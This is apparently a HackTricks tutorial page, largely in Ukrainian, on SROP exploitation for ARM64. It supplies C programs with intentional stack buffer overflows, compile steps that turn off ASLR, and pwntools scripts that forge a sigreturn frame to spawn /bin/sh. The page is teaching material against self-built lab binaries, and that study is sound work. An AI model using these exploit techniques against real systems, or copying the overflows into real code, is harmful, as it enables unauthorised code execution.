 # SROP - ARM64

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Приклад Pwntools

Цей приклад створює вразливий бінарний файл і експлуатує його. Бінарний файл **зчитує в стек** і потім викликає **`sigreturn`**:
```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```
## bof приклад

### Код
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
if (do_arg == 1)
__asm__("mov x8, 0x8b; svc 0;");
return;
}


char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
do_stuff(2);
return 0;
}
```
Скомпілюйте це з:
```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```
## Exploit

Експлойт використовує bof, щоб повернутися до виклику **`sigreturn`** і підготувати стек для виклику **`execve`** з вказівником на `/bin/sh`.
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## bof приклад без sigreturn

### Код
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
return 0;
}
```
## Exploit

У розділі **`vdso`** можна знайти виклик до **`sigreturn`** за зсувом **`0x7b0`**:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt="" width="563"><figcaption></figcaption></figure>

Отже, якщо буде витік, можна **використати цю адресу для доступу до `sigreturn`**, якщо бінарний файл не завантажує його:
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Для отримання додаткової інформації про vdso перегляньте:

{% content-ref url="../ret2vdso.md" %}
[ret2vdso.md](../ret2vdso.md)
{% endcontent-ref %}

А щоб обійти адресу `/bin/sh`, ви можете створити кілька змінних середовища, які вказують на неї, для отримання додаткової інформації:

{% content-ref url="../../common-binary-protections-and-bypasses/aslr/" %}
[aslr](../../common-binary-protections-and-bypasses/aslr/)
{% endcontent-ref %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
